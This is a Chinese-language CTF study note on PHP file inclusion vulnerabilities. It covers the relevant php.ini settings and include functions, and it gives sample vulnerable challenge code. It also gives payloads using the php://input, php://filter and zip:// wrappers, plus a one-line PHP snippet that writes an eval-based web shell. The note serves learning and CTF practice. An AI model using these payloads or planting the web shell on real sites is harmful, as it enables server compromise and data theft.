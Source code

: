 ```yaml
---
title: 文件包含漏洞总结
date: 2021-12-29 17:19:54
updated: 2021-12-29 17:19:54
categories: notebook
tags: 文件包含
urlname:
keywords: 文件包含
---
```


### 1.文件包含漏洞要求

```allow_url_fopen```=On(默认为On) 规定是否允许从远程服务器或者网站检索数```allow_url_include```=On(php5.2之后默认为Off) 规定是否允许include/require远程文件

<br>

### 2.常见文件包含函数

include()


require()

include_once()

require_once()

<br>

### 3.PHP伪协议

#### 1.php://input

可以将post请求的数据当做php代码执行

Example：任意命令执行

```php
<meta charset="utf8">
<?php
error_reporting(0);
$file = $_GET["file"];
if(stristr($file,"php://filter") || stristr($file,"zip://") || stristr($file,"phar://") || stristr($file,"data:")){
	exit('hacker!');
}
if($file){
	if ($file!="http://www.baidu.com") echo "tips：flag在当前目录的某个文件中";
	include($file);
}else{
	echo '<a href="?file=http://www.baidu.com">click go baidu</a>';
}
?>
```



![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211227161135.png)

也可以写入木马：

```php
<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```

<br>

example:文件内容绕过

```php
//test.php
<?php
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
	echo "success\n";
	echo $flag;
}

//flag.php
<?php
$flag = 'flag{flag_is_here}';
?>
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211227162138.png)

<br>

#### 2.php://filter

可以获取指定文件源码。当它与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，让其不执行。从而导致 任意文件读取。

poc:

```
?file=php://filter/read=convert.base64-encode/resource=xxx.php
```

<br>

#### 3.zip://

POC:

```
?file=zip://D:\zip.jpg%23phpinfo.txt
```

详情参考：

[(126条消息) CTF中文件包含漏洞总结_Lethe's Blog-CSDN博客_ctf 文件包含](https://blog.csdn.net/qq_42181428/article/details/87090539?utm_medium=distribute.pc_relevant_t0.none-task-blog-2~default~BlogCommendFromMachineLearnPai2~default-1.contr 回复  3)

